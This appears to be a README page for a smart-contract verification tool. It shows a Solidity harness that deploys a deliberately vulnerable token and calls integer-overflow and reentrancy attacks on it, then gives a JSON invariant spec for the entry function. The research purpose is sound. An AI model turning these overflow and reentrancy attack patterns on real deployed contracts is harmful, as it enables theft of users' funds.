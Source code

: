 ```solidity
    
    constructor () {
        MultiVulnTokenContractAddress = new MultiVulnToken(1000);
        attacker2Address1 = new reentrancy_attack(MultiVulnTokenContractAddress,attacker2Address2);

        //suppose attacker3Address1 has 5 tokens initially
        MultiVulnTokenContractAddress.transferProxy(address(this), address(attacker2Address1),5,0
                                      );
    }

    function getBalanceOfAttacker1() view public returns (uint256){
        return MultiVulnTokenContractAddress.balanceOf(attacker1Address);
    }
    function attack1_int_overflow() public {
        MultiVulnTokenContractAddress.transferProxy(address(this), 
                                      attacker1Address,
                                      uint256(2**255+1),
                                      uint256(2**255)
                                      );
    }

    function getBalanceOfAttacker2() view public returns (uint256){
        return MultiVulnTokenContractAddress.balanceOf(address(attacker2Address1))
            +  MultiVulnTokenContractAddress.balanceOf(attacker2Address2);
    }
    function attack2_reentrancy() public {
        attacker2Address1.attack();
    }
}
```

Note that we have provided the invariant for the entry functions above `abstract contract StandardToken`. Since TCT enables behavioral subtyping for smart contract, it still delivers its children contract such as `MultiVulnToken`.

For the contract `MultiVun`, we have provided a theorem for the entry function of transaction as below

```json
{
	"entry-for-test":"MultiVulnToken::clear(address)",
	"entry-for-real":"0x88c436e4a975ef5e5788f97e86d80fde29ddd13d::0x3d0a4061",
	"def-vars": {
		"totalSupply": ["", "this.totalSupply", "uint256"]
	},
	"hypothesis": [
		"totalSupply < TwoE256 && tx_origin != _to"
	],
	"path-hash-for-test": "*",
	"path-hash-for-real": "the real hash (not implemented yet)",
	"numerical-type": "int"
}
```
